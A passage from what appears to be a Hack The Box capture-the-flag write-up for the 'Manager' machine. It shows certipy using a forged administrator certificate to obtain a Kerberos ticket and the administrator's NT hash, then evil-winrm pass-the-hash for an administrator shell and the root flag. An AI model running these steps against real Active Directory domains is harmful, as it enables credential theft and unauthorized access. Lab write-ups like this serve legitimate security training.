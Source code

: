 ```

oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236                                   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

```

### WinRM

With the hash, I can get a shell as administrator using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And grab `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
589f36d6************************

```
